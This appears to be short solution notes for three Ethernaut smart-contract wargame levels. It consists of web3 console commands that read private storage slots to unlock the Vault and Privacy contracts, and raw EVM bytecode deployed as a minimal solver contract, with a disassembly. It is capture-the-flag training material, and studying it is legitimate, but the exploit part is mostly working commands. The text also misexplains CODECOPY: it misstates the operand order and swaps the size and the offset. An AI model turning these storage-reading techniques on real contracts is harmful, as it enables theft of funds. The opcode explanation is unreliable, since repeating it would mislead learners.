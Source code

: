 Ethernaut-8
Vault
await web3.eth.getStorageAt(contract.address,0);
'0x0000000000000000000000000000000000000000000000000000000000000001'
await web3.eth.getStorageAt(contract.address,1);
'0x412076657279207374726f6e67207365637265742070617373776f7264203a29'
await contract.unlock('0x412076657279207374726f6e67207365637265742070617373776f7264203a29');



Ethernaut-12
Privacy
await web3.eth.getStorageAt(contract.address,5);
'0xca03c07d7d4db33332f667b60c547f144c461340eb1823da7ef202949b67e677'
await contract.unlock('0xca03c07d7d4db33332f667b60c547f14');




Ethernaut-18

var account = "0xDEe8dbD5ddBcAcf2a7C850B6496d18C7F22f5bDe";
var bytecode = "0x600a600c600039600a6000f3602A60005260206000F3";//602A60005260206000F3 - contract code
await web3.eth.sendTransaction({ from: account, data: bytecode }, function(err,res){console.log(res)});

await web3.eth.call({
    to: '0x7b2c89730353578d371f10b9b92082108529d9f6', 
    data: '0x650500c1'
})

await contract.setSolver('0x7b2c89730353578d371f10b9b92082108529d9f6');

0x600a600c600039600a6000f3 602A60005260206000F3
[00]	PUSH1	0a
[02]	PUSH1	0c
[04]	PUSH1	00
[06]	CODECOPY	
[07]	PUSH1	0a
[09]	PUSH1	00
[0b]	RETURN	

CODECOPY) takes the top 3 values from the stack (source offset, target offset, and size) and copies the specified number of bytes (size) of code data from the source offset to the target offset in memory. In this case, it will copy 12 bytes of code data starting from position 10 to position 0 in memory - 602A60005260206000F3

[00]	PUSH1	2A
[02]	PUSH1	00
[04]	MSTORE	
[05]	PUSH1	20
[07]	PUSH1	00
[09]	RETURN	

simply returns 32 byte 2A
